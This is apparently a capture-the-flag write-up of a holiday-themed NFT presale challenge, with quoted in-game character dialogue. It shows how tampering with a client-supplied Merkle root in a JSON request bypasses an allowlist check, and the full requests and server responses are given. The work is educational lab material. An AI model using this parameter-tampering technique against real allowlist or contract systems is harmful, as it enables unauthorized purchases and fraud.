

Exploit flaws in a smart contract to buy yourself a Bored Sporc NFT. Find hints for this objective hidden throughout the tunnels.

Difficulty: 5/5

## Chat with Luigi
Psst. Hey, slick - over here. Myeah.

You look like a sucker ahem I mean, savvy.

I got some exclusive, very rare, very valuable NFTs for sale.

But I run a KringleCoin-only business. Kapeesh?

Ever buy somethin' with cryptocurrency before?

Didn't think so, but if you wheel and deal with ya' pal Luigi here, now you can!

But we're currently in pre-sale, and you gotta be on the list. Myeah, see?

BSRS NFTs are a swell investment. They'll be worth a pretty penny, and that's a promise.

So when they're purchasable, you better snatch 'em up before the other boneheads ahem I mean, eggheads do.

I got a business to run. You can't buy nothin' right now, so scram. Kapeesh?

## Terminal

```
Welcome to the Bored Sporc Rowboat Society Presale Page!

The presale is only available to those select individuals who have earned a place on our exclusive presale list. If you're not on the list, you might as well leave, because you ain't gettin' a Sporc until we open up sales to the general public. If you are on the list, welcome!

    Here's all you gotta do to pre-purchase your Sporc:
    The presale price for a Sporc is 100 KringleCoin (KC). Yeah, we know that's crazy cheap, but we take care of our buds. When we open sales to the public, these things are gonna shoot to the moon.
    First, you're gonna want to make sure that your wallet address is on the approved list. Just make sure to leave the "Validate only" box checked, fill in the form, and we'll let you know if you're good-to-go. Before you do anything else, it's always good to be sure you're doing everything right and your address is validated as being on the list (it's actually something called a Merkle Tree... very high-techy-techy stuff).
    To check if you're on the list, enter your wallet address and the string of proof values that we gave you when we told you that you were on the pre-approved list. Those values should be hex strings (i.e. start with "0x" and consist of a bunch of values that are 0-9 or "a," "b," "c," "d," "e," or "f"). If you're confused, give us a shout and we can help.
    If you're not on the presale list, you're not on the list. Don't beg and plead with us to put you on the list. Seriously - we've only put Sporcs that we're tight with on the list. WE decided who's on the list (COOL SPORCS ONLY). We don't just let anyone on. If we were putting you on the list, we would've contacted you... not the other way around.
    Once you've confirmed everything works and you're sure you have the whole validated-and-on-the-list thing down, just go find a KTM and pre-approve a 100 KC transaction from the wallet you validated. That way, the funds are ready to go. Our Wallet Address is 0xe8fC6f6a76BE243122E3d01A1c544F87f1264d3a.
    Once you've pre-approved the payment, come back here do the same thing you did when you validated your address, just uncheck the "Validate Only" thing. Then, we'll grab your K'Coin, mint a brand spankin' new Sporc, and fire it into your wallet. Zap! Just like that, you'll be the owner of an amazing piece of the digital domain and a member of the Bored Sporc Rowboat Society for life! (Or, until you decide to cash-out and sell your Bored Sporc).
```

Hint 1:
> You're going to need a [Merkle Tree](https://decentralizedthoughts.github.io/2020-12-22-what-is-a-merkle-tree/) of your own. Math is hard. [Professor Petabyte](https://youtu.be/Qt_RWBq63S8) can help you out.

Hint 2:
> You can change something that you shouldn't be allowed to change. This [repo](https://github.com/QPetabyte/Merkle_Trees) might help!

After reading through the resources mentioned in Hint 1, we understand the working of Merkle trees and that they can be used to verify presence of an element in a set. 

We infer that the pre sale list uses a merkle tree to store the allowed wallet addresses. In order to validate the presence our wallet address in the list, we are required to provide our wallet address and the proof.



Ideally at the backend these inputs would be used to compute the root and if this computed root matches the actual root value the verification would pass.
However there is a vulnerability in the validation logic.

In the request sent to the server there is a root parameter and it appears that the computed root is compared with this root parameter.
Request
```
{
	"Proof": "0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a",
	"Root": "0x52cfdfdcba8efebabd9ecc2c60e6f482ab30bdc6acf8f9bd0600de83701e15f1",
	"Session": "48965082-df9b-4bf8-8669-a93746a87f0a",
	"Validate": "true",
	"WalletID": "0xC2d4052f29CCB330852CF17E24beD5f100BAE7f3"
}
```
Response
```
{
	"Response": "That address isn't on the list/Merkel Tree. If you're legit, you may need to try another of your addresses.<br>If you're trying to scam your way into the pre-sale, get lost loser!"
}
```
As this parameter value can be changed to any value we like we can force the validation to succeed by "planting our own merkle tree". We can create our own merkle tree containing our wallet address and pass the corresponding root and proof values. 

The second hint points us to a repo which can be used to create merkle trees. Let's clone the repo. We see the following line which defines the values to be included in the Merkle tree.

`allowlist = ['0x1337133713371337133713371337133713371337','0x0000000000000000000000000000000000000000']`

Let's add our wallet address to the list and run the script.

```
mt_user@cf57d0813b27:~$ python3 merkle_tree.py
Root: 0x849c21622ed0686867a4b7d1e3da3f2bf3ad341d07a10c7672b723fee8fb16ed
Proof: ['0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a']
```

Let's send a modified request containing our newly generated Merkle tree. The validation succeeds.

Request
```
{
	"Proof": "0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a",
	"Root": "0x849c21622ed0686867a4b7d1e3da3f2bf3ad341d07a10c7672b723fee8fb16ed",
	"Session": "48965082-df9b-4bf8-8669-a93746a87f0a",
	"Validate": "true",
	"WalletID": "0xC2d4052f29CCB330852CF17E24beD5f100BAE7f3"
}
```

Response
```
{
	"Response": "You're on the list and good to go! Now... BUY A SPORC!"
}
```

Now let's switch the `validate` parameter to `false` to purchase the NFT.
Request
```
{
	"Proof": "0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a",
	"Root": "0x849c21622ed0686867a4b7d1e3da3f2bf3ad341d07a10c7672b723fee8fb16ed",
	"Session": "48965082-df9b-4bf8-8669-a93746a87f0a",
	"Validate": "false",
	"WalletID": "0xC2d4052f29CCB330852CF17E24beD5f100BAE7f3"
}
```
Response
```
{
	"Response": "Did you approve a 100 KC transaction for our wallet? The transaction failed with \"Insufficient Allowance\"."
}
```

Let's issue the request again after approving the 100 KC transaction from a KTM.

Request
```
{
	"Proof": "0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a",
	"Root": "0x849c21622ed0686867a4b7d1e3da3f2bf3ad341d07a10c7672b723fee8fb16ed",
	"Session": "48965082-df9b-4bf8-8669-a93746a87f0a",
	"Validate": "false",
	"WalletID": "0xC2d4052f29CCB330852CF17E24beD5f100BAE7f3"
}
```
Response
```
{
	"Response": "Success! You are now the proud owner of BSRS Token #000304. You can find more information at https://boredsporcrowboatsociety.com/TOKENS/BSRS304, or check it out in the gallery!<br>Transaction: 0x10948c5bd5759cdceb9e448c4da4ceac938015edef1ae0043b1939d53b4dd23d, Block: 81363<br><br>Remember: Just like we planned, tell everyone you know to <u><em>BUY A BoredSporc</em></u>.<br>When general sales start, and the humans start buying them up, the prices will skyrocket, and we all sell at once!<br><br>The market will tank, but we'll all be rich!!!"
}
```


## Rejoice

What!? How'd you get on the list? What's that? You's a double agent, and you're actually workin' for us?

I don't know if I buy that, but you're on the list, so... myeah.

Somethin' about this ain't sittin' right with me, but there's no reversing transactions with cryptocurrency.

That NFT is yours to keep, but if I find out you're lyin' to me, Palzari's gonna pay you a visit. Kapeesh?

## Chat with Grinchum
😠 We wants them... we needs them... Must.. have.. the Preciouses.

They stole them from us, sneaky little humanses.

🙂 No, not the humanses, they're my friends.

😏 You don't have any friends. NOBODY likes YOU. You're a liar, and a thief, and a.... grriiiiiiinch.

😢 Go away... we don't need you anymore. The humanses protect us now.

😠 Go away? I protected us. The preciouses are safe because of ME!

🙂 Leave now, and never.. come back. 😃 Leave now, and never.. come back!

😁LEAVE NOW, AND NEVER.. COME BACK!😬

Friendly human, please go to jolly human's castle! Go on, we will meet you there!